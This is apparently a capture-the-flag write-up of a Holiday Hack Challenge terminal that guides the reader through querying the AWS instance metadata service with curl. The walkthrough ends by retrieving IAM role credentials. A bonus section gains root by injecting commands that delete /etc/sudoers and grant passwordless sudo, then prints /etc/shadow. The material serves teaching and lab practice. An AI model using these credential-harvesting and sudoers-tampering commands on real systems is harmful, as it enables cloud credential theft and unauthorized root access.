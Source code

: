 # IMDS Exploration
**Location: Restroom, Frost Tower, 16<sup>th</sup> Floor**  
**Troll: Noxious O. D'or**

This objective is a training about what data could be retrieved from the Instance Metadata Service (IMDS) in cloud environments.
It is a completely guided exercise.
```bash
elfu@c27f40ac7165:~$ ping -c1 169.254.169.254
```
```
PING 169.254.169.254 (169.254.169.254) 56(84) bytes of data.
64 bytes from 169.254.169.254: icmp_seq=1 ttl=64 time=0.014 ms

--- 169.254.169.254 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.014/0.014/0.014/0.000 ms
```
---
```bash
elfu@c27f40ac7165:\~$ next
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest
```
```
dynamic
meta-data
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/dynamic
```
```
fws/instance-monitoring
instance-identity/document
instance-identity/pkcs7
instance-identity/signature
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/dynamic/instance-identity/document
```
```json
{
        "accountId": "PCRVQVHN4S0L4V2TE",
        "imageId": "ami-0b69ea66ff7391e80",
        "availabilityZone": "np-north-1f",
        "ramdiskId": null,
        "kernelId": null,
        "devpayProductCodes": null,
        "marketplaceProductCodes": null,
        "version": "2017-09-30",
        "privateIp": "10.0.7.10",
        "billingProducts": null,
        "instanceId": "i-1234567890abcdef0",
        "pendingTime": "2021-12-01T07:02:24Z",
        "architecture": "x86_64",
        "instanceType": "m4.xlarge",
        "region": "np-north-1"
}
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/dynamic/instance-identity/document | jq
```
```json
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   451  100   451    0     0   440k      0 --:--:-- --:--:-- --:--:--  440k
{
  "accountId": "PCRVQVHN4S0L4V2TE",
  "imageId": "ami-0b69ea66ff7391e80",
  "availabilityZone": "np-north-1f",
  "ramdiskId": null,
  "kernelId": null,
  "devpayProductCodes": null,
  "marketplaceProductCodes": null,
  "version": "2017-09-30",
  "privateIp": "10.0.7.10",
  "billingProducts": null,
  "instanceId": "i-1234567890abcdef0",
  "pendingTime": "2021-12-01T07:02:24Z",
  "architecture": "x86_64",
  "instanceType": "m4.xlarge",
  "region": "np-north-1"
}
```
---
```bash
elfu@c27f40ac7165:\~$ next
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/meta-data
```
```
ami-id
ami-launch-index
[...]
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/meta-data/public-hostname
```
```
ec2-192-0-2-54.compute-1.amazonaws.com
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/meta-data/public-hostname; echo
```
```
ec2-192-0-2-54.compute-1.amazonaws.com
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials; echo
```
```
elfu-deploy-role
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role;echo
```
```json
{
        "Code": "Success",
        "LastUpdated": "2021-12-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-12-02T18:50:40Z"
}
```
---
```bash
elfu@c27f40ac7165:\~$ next
elfu@c27f40ac7165:\~$ cat gettoken.sh
```
```
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
```
---
```bash
elfu@c27f40ac7165:\~$ source gettoken.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    44  100    44    0     0  44000      0 --:--:-- --:--:-- --:--:-- 44000
```
---
```
elfu@c27f40ac7165:\~$ echo $TOKEN
Uv38ByGCZU8WP18PmmIdcpVmx00QA3xNe7sEB9Hixkk=
elfu@c27f40ac7165:\~$ curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/placement/region; echo
np-north-1e
```

### Bonus: Root Access to Terminal

 Suspend the session in the bottom pane with CTRL-Z
 ```
 init@c22e7dc1a1f1:~$ cp questions_answers.json questions_answers.json2
init@c22e7dc1a1f1:~$ mv questions_answers.json2 questions_answers.json
mv: replace 'questions_answers.json', overriding mode 0644 (rw-r--r--)? y
init@c22e7dc1a1f1:~$ vi questions_answers.json
 ``` 
 Change file to re-create the suders file with sudo to root permissions for the user elfu:
 ```
 "questions":[
{
  "cmds_on_begin":[
    "sudo /opt/imds/imds.sh 2>&1 >/tmp/.imds.log &",
    "sudo rm /etc/sudoers",
    "echo 'elfu ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers"
],
 ```
 Next the tmux session has to be renamed:  
 CTRL-B
 `:rename-session -t ElfU e`
 Finally, a new session is started:  
 ```
init@c22e7dc1a1f1:~$ tmuxp load mysession.yaml
[Loading] /home/init/mysession.yaml
Already inside TMUX, switch to session? yes/no
Or (a)ppend windows in the current active session?
[y/n/a]: y
 elfu@c22e7dc1a1f1:~$ sudo bash
root@c22e7dc1a1f1:/home/elfu# id
uid=0(root) gid=0(root) groups=0(root)
root@c22e7dc1a1f1:/home/elfu# cat /etc/shadow
root:$6$PzcpSOrlQdaqyDbS$Y3pZzo53tSYHpf4uFhwYvQ3HR/z04hDhNlL4dwfGmef2oleaLsg7q.kaGAbD3fUTGKSc.3h3vNssC9Kt3HjdN.:18954:0:99999:7:::
 ```
 
**Achievement: IMDS Exploration**  
The Troll provides hints for [objective 10](https://github.com/joergschwarzwaelder/hhc2021/tree/master/Objective-10):  
**Hint: AWS IMDS Documentation**
